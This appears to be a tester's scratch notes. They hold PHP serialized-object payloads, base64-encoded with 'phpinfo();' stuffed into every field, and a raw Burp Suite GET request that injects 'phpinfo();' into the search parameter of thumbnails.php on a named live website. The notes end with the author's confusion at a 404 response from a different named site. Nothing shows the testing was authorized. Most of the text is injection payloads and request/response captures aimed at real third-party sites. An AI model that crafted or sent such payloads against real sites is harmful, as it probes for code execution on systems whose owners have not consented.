 a:4: {
    s:2: "ID";
    s:32:"951fdb78b218306fdb443eceac29664d";
    s:2:"am";
    i:1;
    s:4:"lang";
    s:7:"english";
    s:3:"liv";
    a:1: {
        i:0;
        s:1:"1";
    }
}

a:4:{s:2:"ID";s:32:"951fdb78b218306fdb443eceac29664d";s:2:"am";i:1;s:4:"lang";s:7:"english";s:3:"liv";a:1:{i:0;s:1:"1";}}



payload:

czoxMjM6ImE6NDp7czoyOiJwaHBpbmZvKCk7IjtzOjMyOiJwaHBpbmZvKCk7IjtzOjI6ImFtIjtpOjE7czo0OiJwaHBpbmZvKCk7IjtzOjc6InBocGluZm8oKTsiO3M6MzoicGhwaW5mbygpOyI7YToxOntpOjA7czoxOiIxIjt9fQ%3D%3D



payload 2:
czoxMjM6ImE6NDp7czoyOiJwaHBpbmZvKCk7IjtzOjMyOiJwaHBpbmZvKCk7IjtzOjI6InBocGluZm8oKTsiO2k6MTtzOjQ6InBocGluZm8oKTsiO3M6NzoicGhwaW5mbygpOyI7czozOiJwaHBpbmZvKCk7IjthOjE6e2k6MDtzOjE6InBocGluZm8oKTsiO319

s:123:"a:4:{s:2:"phpinfo();";s:32:"phpinfo();";s:2:"phpinfo();";i:1;s:4:"phpinfo();";s:7:"phpinfo();";s:3:"phpinfo();";a:1:{i:0;s:1:"phpinfo();";}}


---

what?

this crafted request appears to respond with a different website. when performed on https://copperplate.org.uk with scope limiting enabled in Burp Suite, sending this request returns a response from https://tech-sourcery.co.uk...

request to https://copperplate.org.uk/thumbnails.php?album=search&keywords=on&search="""";phpinfo();#00
```
GET /thumbnails.php?album=search&keywords=on&search="""";phpinfo();#00 HTTP/2
Host: copperplate.org.uk
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Cache-Control: max-age=0
```

response from https://tech-sourcery.co.uk
```
HTTP/2 404 Not Found
X-Powered-By: W3 Total Cache/0.9.4.6.4
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Link: <https://tech-sourcery.co.uk/wp-json/>; rel="https://api.w.org/"
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Vary: Accept-Encoding,User-Agent
Content-Length: 17051
Content-Type: text/html; charset=UTF-8
Date: Wed, 07 Jun 2023 21:41:33 GMT
Server: Apache
```
